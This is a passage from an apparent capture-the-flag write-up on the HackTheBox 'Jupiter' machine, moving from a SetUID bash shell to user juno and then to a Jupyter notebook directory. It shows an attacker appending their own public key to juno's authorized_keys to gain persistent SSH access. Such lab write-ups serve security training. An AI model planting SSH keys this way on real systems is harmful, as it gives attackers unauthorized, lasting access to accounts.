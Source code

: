 At this point, I’ve already noticed the Jupyter process running as the other
user, jovian. I’ve also noted that the folder in `/opt` is in the science
group.

Interesting, juno should also be a member of science:

    
    
    0xdf-5.1$ cat /etc/group | grep science
    science:x:1001:juno,jovian
    

When I get a shell as juno by running a SetUID and/or SetGID `bash`, it only
brings in the effective userid and/or group id. It doesn’t bring in all the
other groups that that user may belong to.

I’ll go into juno’s `.ssh` directory and add my public key to the
`authorized_keys` file:

    
    
    0xdf-5.1$ cd /home/juno/.ssh/
    0xdf-5.1$ ls
    authorized_keys
    0xdf-5.1$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 
    

Now I can SSH in as juno:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen juno@jupiter.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
    ...[snip]...
    juno@jupiter:~$
    

This shell has the science group:

    
    
    juno@jupiter:~$ id
    uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
    

### Access To Jupyter Notebook

#### /opt/solar-flares

The `/opt/solar-flares` directory has a bunch of files related to a Jupyter
Notebook:

    
    
    juno@jupiter:/opt/solar-flares$ ls
    cflares.csv  flares.csv  flares.html  flares.ipynb  logs  map.jpg  mflares.csv  start.sh  xflares.csv
    

The `start.sh` script starts the notebook in such a way that it logs
everything into a log file named with the current date in the `logs`
directory:
